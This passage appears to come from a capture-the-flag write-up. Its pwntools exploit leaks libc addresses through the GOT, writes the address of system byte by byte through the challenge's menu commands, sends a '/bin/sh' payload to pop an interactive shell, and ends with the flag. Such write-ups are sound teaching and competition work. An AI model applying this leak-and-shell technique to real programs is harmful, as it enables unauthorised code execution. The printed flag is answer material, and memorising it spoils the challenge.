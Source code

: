```py
log.info(f"\tprintf:  0x{s2p(leak_string(elf.got.printf)):012x} ")    # 0x7fe5ce422c90
log.info(f"\tputs:    0x{s2p(leak_string(elf.got.puts)):012x} "  )    # 0x7fe5ce445420
log.info(f"\tread:    0x{s2p(leak_string(elf.got.read)):012x} "  )    # 0x7fe5ce4cf1e0


libc.address = s2p(leak_string(elf.got.puts)) - libc.symbols["_IO_puts"]
log.success(f"libc_base: 0x{libc.address:012x}")

for i in range(5,-1,-1):
    x = ((libc.symbols.system & (0xff <<i*8) ) >> (i*8))
    p.sendlineafter(b'> ',f'3 {x}'.encode())            # [taunt] to set the least significat byte on banter
    if i!=0:
        p.sendlineafter(b'> ',b'2')                     # [lob] to left shift it by 8 bits

payload = str(banter_off).encode()
payload+= b' '
payload+= f'/bin/sh\0'.encode()

p.sendlineafter(b'> ',payload)
p.success('popping a shell')
p.clean()
p.interactive()

# wctf{y0u_c4nt_b3_s3r1ous_appr0ved_g4dg3t5_0nly}
```

![congratz](./assets/congratz.gif)
